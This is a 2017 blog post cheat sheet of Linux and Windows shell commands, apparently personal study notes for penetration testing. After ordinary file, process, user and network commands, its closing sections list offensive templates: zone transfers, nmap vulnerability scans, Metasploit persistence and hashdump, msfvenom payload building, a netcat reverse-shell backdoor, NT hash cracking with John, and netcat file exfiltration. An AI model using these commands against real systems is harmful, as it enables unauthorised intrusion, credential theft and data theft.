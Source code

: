 ```yaml
---
layout: post
title: "Basics Cheat Sheet"
date: 2017-09-05
---
```

<p>
Here is a formatted list of basic commands. I used these as I was learning how to get my way around and added to the list as I learned new things. Writing them down helped me remember the syntax.
</p>
<h2> Get Help … and other info</h2>
<ul>
	<strong>
		<li><code>C:\> <command> /? </code></li>
		<li><code>root@kl~# <command> -h </code></li>
		<li><code>root@kl~# <command> --help </code></li>
		<li><code>root@kl~# man <command> </code></li>
		<li><code>root@kl~# apropos </code></li>
		<li><code>root@kl~# history </code></li>
		<li><code>root@kl~# hostname</code></li>
		<li><code>root@kl~# sudo </code></li>
		<li><code>root@kl~# whoami </code></li>
	</strong>
			<ul>
				<li>(print current user id and name)</li>	
			</ul>
	<strong>
		<li><code>root@kl~# date </code></li> 
		<li><code>C:\>  chdir </code></li>
	</strong>
			<ul>
				<li>(displays location)</li>
			</ul>
	<strong>
		<li><code>root@kl~# pwd </code></li>
	</strong>
			<ul>
				<li>(displays location)</li>
			</ul>
</ul>

<h2>Processes and Things</h2>
<ul>
	<strong>
		<li><code>root@kl~# jobs </code></li>
	</strong>
			<ul>
				<li>(list cronjobs)</li>
			</ul>
	<strong>
		<li><code>root@kl~# kill </code></li>
	</strong>
			<ul>
				<li>(stop processes)</li>
			</ul>
	<strong>
		<li><code>root@kl~# pkill </code></li>
	</strong>
			<ul>
				<li>(stop processes)</li>
			</ul>
	<strong>	
		<li><code> root@kl~# ps –aef </code></li>
	</strong>
			<ul>
				<li>(list processes status)</li>
			</ul>
	<strong>
		<li><code>C:\ tasklist </code></li>
	</strong>
</ul>

<h2>Files</h2>
<ul>
	<li><code>root@kl~# cp <src> <dst> </code></li>
		<ul>		
			<li>(copy)</li>
		</ul>
	<li><code>C:\> copy <src> <dst> </code></li>
	<li><code>root@kl~# clear </code></li>
	<li><code>C:\> cls </code></li>
	<li><code>C:\> dir </code></li>
	<li><code>root@kl~# echo <message> </code></li>
		<ul>
			<li>(print to screen)</li>
		</ul>		
	<li><code>root@kl~# find –iname <file> </code></li>
	<li><code>C:\> findstr /i /s <string> *.txt </code></li>
		<ul>
			<li>(like grep for Windows)</li>
		</ul>
	<li><code>root@kl~# file </code></li>
		<ul>
			<li>(determine file type)</li>
		</ul>
	<li><code>C:\> dir \ <file> /b /s </code></li>
	<li><code>root@kl~# grep </code></li>
		<ul>
			<li>(search files for matching text)</li>
		</ul>
	<li><code>root@kl~# gzip </code></li>
		<ul>
			<li>(compress or decompress files)</li>
		</ul>
	<li><code>root@kl~# less </code></li>
		<ul>
			<li>(display output one screen at a time)</li>
		</ul>	
	<li><code>root@kl~# locate </code></li>
	<li><code>root@kl~# ls </code></li>
	<li><code>root@kl~# mkdir </code></li>
		<ul>
			<li>(new directory)</li>
		</ul>	
	<li><code>root@kl~# mv <src><dst> </code></li>
		<ul>
			<li>(move/rename a file)</li>
		</ul>
	<li><code>C:\>  move <src> <dst> </code></li>
	<li><code>root@kl~# rm </code></li> 
		<ul>
			<li>(remove files)</li>
		</ul>	
	<li><code>C:\> ren </code></li>
		<ul>
			<li>(renames file)</li>
		</ul>		
	<li><code>root@kl~# umask </code></li>
		<ul>
			<li>(users file creation mask)</li>
		</ul>	
	<li><code>root@kl~# uniq </code></li>
		<ul>
			<li>(uniquify files)</li>
		</ul>	
	<li><code>root@kl~# vi/vim </code></li>
		<ul>
			<li>(the best text editor)</li>
		</ul>	
	<li><code>root@kl~# wc </code></li>
		<ul>
			<li>(print byte, word and line counts)</li>
		</ul>	
	<li><code>root@kl~# whereis </code></li>
		<ul>
			<li>(search $path, man pages and source files for program)</li>
		</ul>	
</ul>
		
<h2>Users</h2>
root@kl~# chgrp 
(change group ownership)	
root@kl~# chmod 
(change access permissions) 
root@kl~# chown 
(change file owner and group)
root@kl~# groupadd 
(add a user to a security group)
root@kl~# passwd 
(modify user password)
root@kl~# useradd 
(create new users)
root@kl~# usermod 
(modify user account)
root@kl~# users 
(list logged in users)
Networks
root@kl~# curl (grab webpages)
root@kl~# dig (DNS lookup)
root@kl~# ifconfig
root@kl~# netstat -ano/-plant/-uplant
(networking connections)
root@kl~# nslookup
 (query name servers)
root@kl~# ping
root@kl~# ssh
root@kl~# traceroute
root@kl~# wget 
(get web pages or files)
 
 
Reconnaissance
Discover target’s IP/FQDN domain
nslookup <domain>
nslookup <ip>
Find nameserver for known domain
	root@kl~# dig <domain>
perform a zone transfer to list hosts w/in domain
	root@kl~# dig axfr @<name server> <domain>
determine route to a host
	root@kl~# traceroute <ip>
	C:\> tracert <ip
scan for services and operating system
	root@kl~# nmap –sV –O <ip> 
scan for vulns
	root@kl~# nmap --script=vulns <ip>
Gain and Maintain
establish ssh connection
	root@kl~# ssh <user>@<ip>
remote desktop (rdesktop is port 3389 and vncviewer is 5900)
	rdesktop -u <username> -p <password> <ip>
	vncviewer <ip>
favorites from the msf console
	search <keyword>
	info <module> 
	use <module>
	show options (shows you what to fill in)
	show payloads (shows payloads associated with the exploit you loaded)
	background (use to background sessions)
	pwd vs lpwd & cd vs lcd
	sessions –i <#>  (to interact with sessions)
	run persistence –h 
	run persistence –A –r <your ip> -p <port> -i 10 (call back every 10 seconds if connection is lost)
	hashdump
add a route in msf
	route add <victim subnet> <subnet mask> <session#>
	route print
make a msfvenom payload for windows executable
	root@kl~# msfvenom –p <payload> lhost=<ip> lport=<port> -f exe –i 2 > <file>.exe
	root@kl~# msfvenom –l encoders (for list of encoders)
	set up a listener in metasploit
		use exploit/multi/handler
		set payload
		set ExitOnSession false
		exploit –j (run as a job)
netcat backdoor
	root@kl~# nc –l –p <port> (on launch platform)
	C:\> start nc <launch ip> <port> -e cmd.exe
Escalate and Propagate
get passwords using meterpreter or shell (/etc/shadow or hashdump)
use john to crack NT hashes – remember to add special words you find to the password list in john
	root@kl~# ./john <file> --format=nt
transfer files with netcat
	root@kl~#  nc –l –p <port> > <file> (on your platform to listen for file)
	C:\> nc.exe <your ip> <port>  <  <file to transfer>
transfer files with python
	python –m SimpleHTTPServer <port>
